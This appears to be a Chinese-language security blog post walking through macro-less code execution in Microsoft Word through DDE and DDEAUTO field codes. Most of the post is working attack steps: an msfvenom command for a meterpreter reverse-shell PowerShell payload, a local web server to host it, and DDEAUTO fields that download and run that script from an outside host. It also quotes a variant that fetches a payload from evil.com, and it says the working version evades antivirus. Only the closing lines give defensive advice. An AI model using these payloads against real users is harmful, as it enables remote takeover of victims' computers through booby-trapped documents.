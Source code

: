 ```yaml
---
title: MSWord Code Exec Without Macro
date: 2017-10-12 12:54:29
tags: [vul,sec]
categories: Security
---
```

昨天复现了一个 Microsoft Office Word 的一个执行任意代码的姿势，跟之前爆出的两个CVE (CVE-2017-0199, CVE-2017-8759) 可以组成三板斧，这里简单记录一下

在不启用宏的情况下执行任意程序，按照复现过程来看这确实像是一个功能而不是 bug，微软也表示不会修复这个“漏洞”。这个功能的本意是为了更方便地在 word 里同步更新其它应用的内容，比如说在一个 word文档里引用了另一个excel表格里的某项内容，通过连接域 (Field) 的方式可以实现在 excel 里更新内容后 word 中同步更新的效果，问题出在这个域的内容可以是一个公式(或者说表达式)，这个公式并不限制内容，于是我们可以这样，`ctrl+f9`插入一个域，在`{}`之间写入代码：

`{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }`

或者`插入-文档部件-域`，选择第一个` = (Formula)`
然后右键`切换域代码`来编辑代码，插入上面的内容

这样子可以直接弹出计算器

![calc](https://ob5vt1k7f.qnssl.com/GIF.gif)


既然能执行cmd那就能弹shell

在msf里生成一个ps脚本：

`./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f psh-reflection >xxx.ps1`

在msf里监听

![msf](https://ob5vt1k7f.qnssl.com/HQ%5D%25%7DB5TLH~HBZD%7B1_%7B$D%254.png)

然后开启一个服务器

`python -m SimpleHTTPServer 80`

远程下载ps脚本后执行

`DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -c IEX(New-Object System.Net.WebClient).DownloadString('http://x.x.x.x/xxx.ps1');xxx.ps1"`

打开文件后反弹一个shell

![shell](https://ob5vt1k7f.qnssl.com/MPI@%5B%60%25DL%28U7WZL220E0%5B7Q.jpg)


过程很简单，唯一不足的是打开文件过程中会有两次弹窗，第一次是询问是否更新链接，第二个是问是否执行程序，当两个都点击确认后才会执行。

作者给出的命令是
`{ DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evil.com/evil.ps1');powershell -e $e "}`
但是自己尝试了并没有成功，于是修改成上面的命令，测试成功，并且不会报毒

除了上面使用的`DDEAUTO`，`DDE`也有能实现这个效果，但是要多一个步骤
将文件后缀改为`zip`或`rar`，用`7z`打开，修改`word/settings.xml`文件，增加一行`<w:updateFields w:val="true"/>`
![](https://ob5vt1k7f.qnssl.com/6U0%25213Q8W%7BEOM%7BJ_V@7%29G7.png)
替换原来的`xml`文件后把后缀改回来

编辑文档，域代码为`{ DDE "c:\\windows\\system32\\cmd.exe" "/c notepad" }`
效果跟上面一样


类似方法除了上面两个外还有
```
GLOSSARY
IMPORT
INCLUDE
SHAPE
DISPLAYBARCODE
MERGEBARCODE
```
参考微软文档 https://msdn.microsoft.com/en-us/library/ff529384(v=office.12).aspx

目前不清楚这些方法有没有影响，微软认为并没有必要去修复这个“漏洞”

> Microsoft responded that as suggested it is a feature and no further action will be taken, and will be considered for a next-version candidate bug.

最近 office 漏洞频发，建议不要打开陌生的文档包括excel，ppt等，如有必要在保护视图中查看，另外及时更新系统补丁

参考：
https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/
